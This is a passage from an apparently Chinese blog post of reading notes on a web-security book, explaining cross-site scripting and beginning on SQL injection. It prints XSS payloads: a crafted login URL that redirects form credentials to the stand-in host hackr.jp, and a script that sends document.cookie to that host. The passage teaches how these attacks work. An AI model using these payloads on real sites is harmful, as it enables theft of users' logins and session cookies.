 充分熟知此处漏洞特点的攻击者，于是就创建了下面这段嵌入恶意代码的 URL。并隐藏植入事先准备好的欺诈邮件中或 Web 页面内，诱使用户去点击该 URL。

```javascript
http: //example.jp/login?ID=><script>var f=document.getElementById(login); f.action=http://hackr.jp/pwget; f.method=get;</script><span s=
```

浏览器打开该 URI 后，直观感觉没有发生任何变化，但设置好的脚本却偷偷开始运行了。当用户在表单内输入 ID 和密码之后，就会直接发送到攻击者的网站（也就是 hackr.jp），导致个人登录信息被窃取。

![信息窃取](/images/posts/2018-09-18-read-图解HTTP-Part11-信息窃取.png)

之后，ID 及密码会传给该正规网站，而接下来仍然是按正常登录步骤，用户很难意识到自己的登录信息已遭泄露。

对用户 Cookie 的窃取攻击

除了在表单中设下圈套之外，下面那种恶意构造的脚本同样能够以跨站脚本攻击的方式，窃取到用户的 Cookie 信息。

```javascript
< script src = http: //hackr.jp/xss.js></script>
```

该脚本内指定的 http://hackr.jp/xss.js 文件。即下面这段采用 JavaScript 编写的代码。

```javascript
var content = escape(document.cookie);
document.write('<img src=http://hackr.jp/?');
document.write(content);
document.write('>');
```

在存在可跨站脚本攻击安全漏洞的 Web 应用上执行上面这段 JavaScript 程序，即可访问到该 Web 应用所处域名下的 Cookie 信息。然 后这些信息会发送至攻击者的 Web 网站（http://hackr.jp/），记录在他的登录日志中。结果，攻击者就这样窃取到用户的 Cookie 信息了。

![使用 XSS 攻击夺取 Cookie 信息](/images/posts/2018-09-18-read-图解 HTTP-Part11-使用 XSS 攻击夺取 Cookie 信息.png)

#### SQL 注入攻击

会执行非法 SQL 的 SQL 注入攻击

SQL 注入（SQL Injection）是指针对 Web 应用使用的数据库，通过运行非法的 SQL 而产生的攻击。该安全隐患有可能引发极大的威胁，有时会直接导致个人信息及机密信息的泄露。

Web 应用通常都会用到数据库，当需要对数据库表内的数据进行检索或添加、删除等操作时，会使用 SQL 语句连接数据库进行特定的操作。如果在调用 SQL 语句的方式上存在疏漏，就有可能执行被恶意注入（Injection）非法 SQL 语句。

SQL 注入攻击有可能会造成以下等影响。

- '非法查看或篡改数据库内的数据'
- '规避认证'
- '执行和数据库服务器业务关联的程序等'

何为 SQL

SQL 是用来操作关系型数据库管理系统（Relational DataBaseManagement System，RDBMS）的数据库语言，可进行操作数据或定义数据等。RDBMS 中有名的数据库有 Oracle Database、Microsoft SQL Server、IBM DB2、MySQL 和 PostgreSQL 等。这些数据库系统都可以把 SQL 作为数据库语言使用。使用数据库的 Web 应用，通过某种方法将 SQL 语句传给 RDBMS，再把 RDBMS 返回的结果灵活地使用在 Web 应用中。

```sql
SELECT title,text FROM newsTbl WHERE id=123
```
